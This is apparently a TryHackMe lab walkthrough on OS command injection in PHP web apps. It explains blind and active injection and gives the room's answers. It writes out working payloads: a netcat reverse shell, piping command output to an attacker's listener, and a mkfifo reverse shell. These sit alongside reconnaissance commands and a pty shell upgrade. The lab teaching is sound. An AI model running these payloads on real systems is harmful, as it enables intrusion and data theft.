






# Injection (OS Command Injection)

A TryHackMe walkthrough [room](https://tryhackme.com/room/injection) of OS Command Injection, including demonstrate how it works, and how to prevent it on your servers

## [Task 2] Intro to OS Command Injection

* It occurs when __server-side code__ like PHP in a web application makes a *__system call__ on the hosting machine*
* It is a web vulnerability that allows commands to be executed on the web application/site without proper sanization
* The consequence can be light as reading files, but also can be worse as spawning a reverse shell on the web server (eg. ```; nc -e /bin/bash```)

    

## [Task 3] Blind Command Injection

* Occurs when the system call that's being made _doesn't return the response of the call to the Document Object Model_ (DOM)
* The DOM is where the HTML is rendered, consider it as the canvas of an HTML document
* Users tests with a command to try to see if the server is vulnerable to command injection, while it is _executed by the **server-side code** on the server and the code **doesn't output the response**_
* Directory Search (index.php) Code Example :
    
  * The vulnerability is that _no sanitization on $_GET["username"]_, and execute the system command directly with PHP function exec($command)
  * It is clear that _no response of the HTTP request is returned to the DOM_ (ie. any where on the page, except the Bootstrap pop-up window), thus it is a **blind** os command injection
* One way to accomplish Blind Injection is using __command output redirection__, with the following steps
  * Redirect the output of a command to a file, ie.

    ```Bash
        ; os_command > target_output_file
    ```

    * The leading _semicolon (;)_ is used to end the command entry on server-side code, in order to execute the injected command as a separated command
    * The _symbol '>'_ marked as the command output redirection symbol to certain file

  * Return the OS command output through URI directory traversal (on browser), ie. _original_URL/path/to/file_
* The following task questions are applying this stradegy to complete a success Blind OS Command Injection

### Task 3 Questions

1. Ping the box with 10 packets. What is this command (without IP address) ?

    Solution : ``` ; ping -c 10 ```

2. Redirect the box's Linux Kernel Version to a file on the web server.  What is the Linux Kernel Version?

    Step :
    * Create a new empty text file and redirect the target command to it

        

    * Access the target file through URI directory traversal

        

    Solution : ``` 4.15.0-101 ```

3. Enter __"root"__ into the input and review the alert. What type of alert do you get ?

    

    Solution : success

4. Enter __"www-data"__ into the input and review the alert. What type of alert do you get ?

    

    Solution : success

5. Enter __your name__ into the input and review the alert.  What type of alert do you get ?

    

    Solution : error

* Bypassing the Blind Injection with netcat :
  * In case the user has no write permission on the web server, there is an alternative solution by using __netcat__
  * Pipe the output of command to a nc listener, eg.

    ```Bash
        root; ls -la | nc {VPN_IP} {PORT}
    ```

    * The command above will send the output of ```ls -la``` to your netcat listener
    * Futher explain of this method can be found [here](https://howto.lintel.in/listen-arbitrary-port-print-data-coming-using-netcat/)

## [Task 3] Active Command Injection

* It is a reverse of Blind Command Injection, which will _return the response to the user_
* The response can be made visible through several HTML elements

    

  * The [function](https://www.php.net/manual/en/function.passthru.php) ```passthru()``` executes what gets entered into the input then ___passing the output directly back to the browser___

* How to detect Active Command Injection
  * The command output is returned as certain HTML/DOM element(s) to the website
  * Note that depends on the server OS, the available OS commands can be different, and the following worth a try :
    * Linux

        ```Bash
        whoami
        id
        ifconfig/ip addr
        uname -a
        ```

    * Windows

      ```Powershell
      whoami
      ver
      ipconfig
      tasklist
      netstat -an
      ```

### Task 3 Questions

1. What strange text file is in the website root directory ?
    * Command Used : ```ls .```

2. How many non-root/non-service/non-daemon users are there ?
    * Command used : ```ls /home```
    * Solution : No output, ie. __0__

3. What user is this app running as ?
    * Command used : ``` whoami ```

4. What is the user's shell set as ?
    * Command used : ``` getent passwd www-data ```, which get the entries of __www-data__ from administrative database __passwd__
    * About this [shell](https://www.nixcraft.com/t/usr-sbin-nologin-what-is-the-purpose-of-it-in-linux/1949), it is used as _a shell in Linux to politely refuse a login attempt_, which is because there are no user account and thus on ssh connection available on this server

5. What version of Ubuntu is running ?
    * [Command](https://help.ubuntu.com/community/CheckingYourUbuntuVersion) used : ```lsb_release -a```
    * Note : command ```uname -r``` is used to print out the kernel release version

6. Print out the MOTD. What favorite beverage is shown ?
    * Hint : 00-header
    * [MOTD](https://manpages.ubuntu.com/manpages/trusty/man5/motd.5.html) stands for __Message Of The Day__ on Ubuntu
    * Note to point out that the way MOTD works has changed over years of development, result in diferent way to deal with it in different distribution.
    * However, it can be confirmed that the related file/folder is stored in ```/etc``` directory
    * [Reference](https://linuxconfig.org/how-to-change-welcome-message-motd-on-ubuntu-18-04-server) about MOTD for this version of Ubuntu web server

## [Task 5] Get The Flag

By using netcat to listen to the OS command output, first we have to initiate a nc listener on the given port with local terminal :

```Bash
nc  -nlvp <unused_port_number> # eg. 1234
```

* For the command above :

    Option  | Description
    ---     | ---
    -n      | numeric-only IP addresses, no DNS
    -l      | Enable listen mode, for inbound connects
    -p port | Local port number to work on
    -v      | Enable verbose mode, that has responsive message as the output when certain works are done

* Make sure the port number applied isn't in used ([Reference](https://www.cyberciti.biz/faq/unix-linux-check-if-port-is-in-use-command/))

To establish a reverse shell on the web server,

```Bash
; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc <your_local_ip> <port_number_preferred> >/tmp/f
```

* Command [mkfifo](https://linux.die.net/man/3/mkfifo) is used to create a FIFO special file with pathname, which it is similar to a pipe.
* _Any process can open it for reading or writing_, while it has to be ___open at both ends simultaneously___ before able to proceed to do any io operations on it.
* ```/bin/sh``` is usually implemented as a symbolic link pointing to the executable for whichever shell is the system shell. Option ```-i``` forces the shell to behave interactively
* [2>&1](https://www.brianstorti.com/understanding-shell-script-idiom-redirect/) is basically saying _redirect the_ ```stderr(2)``` _to the same place we are redirecting the_ ```stdout(&1)``` (confirmed to a certain destination file)
* The ```nc``` command here means that it _send the file /tmp/f to the host machine which has the nc listener executing on certain port_

The following inline python script allows you to have an interactive shell on listener :

```Python
python -c 'import pty; pty.spawn("/bin/bash")'
```

* ```pty``` is a [Pseudo-terminal utilities](https://docs.python.org/3/library/pty.html) in python
* spawn() function is used to spawn a process, and connect its controlling terminal with the current process's standard io
* Here it spawn the /bin/bash shell and thus we are able to launch our shell through bash

However, since there are no user to privesc (0 non-root user), thus we have to find the flag using command injection logic. The destination flag file can be in one of the major directories (ie. /root, /etc, /var and /usr)



Read the flat.txt and you will get the flag
